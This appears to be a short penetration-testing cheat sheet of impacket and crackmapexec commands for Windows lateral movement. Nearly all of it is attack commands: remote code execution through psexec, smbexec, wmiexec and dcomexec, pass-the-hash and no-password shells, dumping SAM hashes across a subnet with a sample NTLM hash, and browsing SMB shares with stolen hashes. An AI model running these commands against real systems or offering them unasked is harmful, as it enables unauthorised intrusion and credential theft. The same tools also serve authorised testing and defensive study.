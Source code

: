 #### [github link](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_24)

### psexec

* remote code execution 
```
python psexec.py domain/user:password@IP <command>
```
* Shell via pass-the-hash:
```
python psexec.py -hashes:<hash> <user_name>@<remote_hostname>
```
* Shell via pass-the-password:
```
python psexec.py Administrator:<password>4@<remote_hostname>
```
* Shell via no-pass
```
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
### smbexec

* remote code execution
```
python smbexec.py domain/user:password@IP <command>
```

### wmiexec

* remote code execution 
```
python wmiexec.py domain/user:password@IP <command>
```
### dcomexec

* remode code execution
```
python dcomexec.py domain/user:password@IP <command>
```

### crackmapexec
* over a subnet and extract SAM file:
```
python crackmapexec -u Administrator -H :011AD41795657A8ED80AB3FF6F078D03 <target_IP> --sam
```
### smbclient
Browse shares via pass-the-hash:
```
python smbclient.py <target_domain>/Administrator@target_IP -hashes 01[...]03:01[...]03
```
* a generic SMB client that will let you list shares and files, rename,
* upload and download files and create and delete directories
